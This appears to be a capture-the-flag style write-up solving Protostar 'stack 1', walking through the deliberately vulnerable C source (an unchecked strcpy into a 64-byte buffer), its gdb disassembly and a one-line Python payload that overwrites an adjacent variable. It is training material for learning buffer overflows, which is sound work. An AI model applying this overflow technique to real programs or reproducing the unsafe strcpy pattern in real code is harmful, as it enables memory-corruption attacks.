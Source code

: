 ```yaml
---
title: "protostar - stack 1"
classes: wide
tag: 
  - "buffer overflow"
header:
  teaser: /assets/images/binary-exploitation/binexp.png
ribbon: red
description: "Solution for stack one from Protostar in Exploit Education Series"
categories:
  - Binary Exploitation
---
```


Lets check the file type of our binary using ```file``` command,

```c
$ file stack1
stack1: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
```

Lets try running it,

```c
$ ./stack1
stack1: please specify an argument

$ ./stack1 monish
Try again, you got 0x00000000
```

It seems like we have to overwrite the ```buffer``` with some value

Lets view the source code for proper understanding,

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

We need to overwrite the ```modified``` variable with ```0x61626364```

Lets use our debugger to analyse it,

Disassembling ```main()```,

```c
(gdb) disas main
Dump of assembler code for function main:
0x08048464 <main+0>:	push   ebp
0x08048465 <main+1>:	mov    ebp,esp
0x08048467 <main+3>:	and    esp,0xfffffff0
0x0804846a <main+6>:	sub    esp,0x60
0x0804846d <main+9>:	cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:	jne    0x8048487 <main+35>
0x08048473 <main+15>:	mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:	mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:	call   0x8048388 <errx@plt>
0x08048487 <main+35>:	mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:	add    eax,0x4
0x08048495 <main+49>:	mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:	mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:	lea    eax,[esp+0x1c]
0x0804849f <main+59>:	mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:	call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:	mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:	cmp    eax,0x61626364
0x080484b0 <main+76>:	jne    0x80484c0 <main+92>
0x080484b2 <main+78>:	mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:	call   0x8048398 <puts@plt>
0x080484be <main+90>:	jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:	mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:	mov    eax,0x80485f3
0x080484c9 <main+101>:	mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:	mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:	call   0x8048378 <printf@plt>
0x080484d5 <main+113>:	leave
0x080484d6 <main+114>:	ret
```

Here ```modified``` is set to ```0``` by,

```c
0x08048487 <main+35>:	mov    DWORD PTR [esp+0x5c],0x0
```

Here ```buffer``` space is allocated by,

```c
0x0804849b <main+55>:	lea    eax,[esp+0x1c]
```

Inorder to overwrite ```modified``` we need to find the space between them,

```c
>>> print(0x5c-0x1c)
64
```

Passing 64 bytes of junk,

```c
$ ./stack1 $(python -c "print('A'*64)")
Try again, you got 0x00000000
```

Lets try to overwrite,

```c
$ ./stack1 $(python -c "print('A'*64+'BBBB')")
Try again, you got 0x42424242
```

We successfully ovewrote our junk ```BBBB```

Lets exploit it,

```c
$ ./stack1 $(python -c "print('A'*64+'\x64\x63\x62\x61')")
you have correctly got the variable to the right value
```

Done! we have completed "stack1" 
